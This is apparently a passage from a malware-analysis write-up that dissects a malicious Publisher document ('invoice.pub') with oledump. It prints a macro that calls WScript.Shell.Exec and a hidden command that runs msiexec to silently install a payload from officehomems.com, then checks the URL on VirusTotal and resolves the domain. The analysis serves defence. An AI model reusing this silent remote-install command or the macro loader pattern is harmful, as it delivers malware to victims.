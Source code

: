 ```
$ ./oledump.py  -s 20 ~/invoice.pub 
...
000000F0: 40 00 00 80 CE 18 00 00  8B 07 00 00 53 65 74 20  @...........Set 
00000100: 61 72 61 62 73 6B 79 20  3D 20 43 72 65 61 74 65  arabsky = Create
00000110: 4F 62 6A 65 63 74 28 22  57 53 63 72 69 70 74 2E  Object("WScript.
00000120: 53 68 65 6C 6C 22 29 0D  0A 61 72 61 62 73 6B 79  Shell")..arabsky
00000130: 2E 45 78 65 63 28 22 41  41 41 22 29 00 02 1C 00  .Exec("AAA")....
00000140: 37 00 00 00 06 00 00 80  00 20 00 40 A5 00 00 00  7........ .@....
00000150: CC 02 00 00 54 61 68 6F  6D 61 00 00              ....Tahoma..
```

```
$ ./oledump.py  -s 18 ~/invoice.pub 
00000000: 56 45 52 53 49 4F 4E 20  35 2E 30 30 0D 0A 42 65  VERSION 5.00..Be
00000010: 67 69 6E 20 7B 43 36 32  41 36 39 46 30 2D 31 36  gin {C62A69F0-16
00000020: 44 43 2D 31 31 43 45 2D  39 45 39 38 2D 30 30 41  DC-11CE-9E98-00A
00000030: 41 30 30 35 37 34 41 34  46 7D 20 5A 63 6C 42 6C  A00574A4F} ZclBl
00000040: 61 63 6B 20 0D 0A 20 20  20 43 61 70 74 69 6F 6E  ack ..   Caption
00000050: 20 20 20 20 20 20 20 20  20 3D 20 20 20 22 55 73           =   "Us
00000060: 65 72 46 6F 72 6D 31 22  0D 0A 20 20 20 43 6C 69  erForm1"..   Cli
00000070: 65 6E 74 48 65 69 67 68  74 20 20 20 20 3D 20 20  entHeight    =  
00000080: 20 33 31 38 30 0D 0A 20  20 20 43 6C 69 65 6E 74   3180..   Client
00000090: 4C 65 66 74 20 20 20 20  20 20 3D 20 20 20 34 35  Left      =   45
000000A0: 0D 0A 20 20 20 43 6C 69  65 6E 74 54 6F 70 20 20  ..   ClientTop  
000000B0: 20 20 20 20 20 3D 20 20  20 33 37 35 0D 0A 20 20       =   375..  
000000C0: 20 43 6C 69 65 6E 74 57  69 64 74 68 20 20 20 20   ClientWidth    
000000D0: 20 3D 20 20 20 34 37 31  30 0D 0A 20 20 20 53 74   =   4710..   St
000000E0: 61 72 74 55 70 50 6F 73  69 74 69 6F 6E 20 3D 20  artUpPosition = 
000000F0: 20 20 31 20 20 27 43 65  6E 74 65 72 4F 77 6E 65    1  'CenterOwne
00000100: 72 0D 0A 20 20 20 54 61  67 20 20 20 20 20 20 20  r..   Tag       
00000110: 20 20 20 20 20 20 3D 20  20 20 22 6B 3D 34 20 64        =   "k=4 d
00000120: 3D 34 20 7A 3D 31 31 31  20 2F 71 20 2F 6E 6F 72  =4 z=111 /q /nor
00000130: 65 73 74 61 72 74 20 2F  69 20 68 74 74 70 3A 2F  estart /i http:/
00000140: 2F 6F 66 66 69 63 65 68  6F 6D 65 6D 73 2E 63 6F  /officehomems.co
00000150: 6D 2F 6C 73 6D 22 0D 0A  20 20 20 54 79 70 65 49  m/lsm"..   TypeI
00000160: 6E 66 6F 56 65 72 20 20  20 20 20 3D 20 20 20 32  nfoVer     =   2
00000170: 30 0D 0A 45 6E 64 0D 0A                           0..End..
```

Simplified version:
 * msiexec k=4 d=4 z=111 /q /norestart /i http://officehomems.com/lsm

By inserting the URL into VirusTotal we can gather evidence that confirms our suspicions that this is an attack
 * [VT Sample 38a6fbf7c370b7cc1d95aff221833e1e66b915d00b360d6f071ad8664d476f5e](https://www.virustotal.com/#/url/38a6fbf7c370b7cc1d95aff221833e1e66b915d00b360d6f071ad8664d476f5e/detection)

![VT on sample](/blog/assets/TA505_38a.png)

Next we perform our research against the URL and the domain name:
```
dig officehomems.com +short
54.38.15.250
```
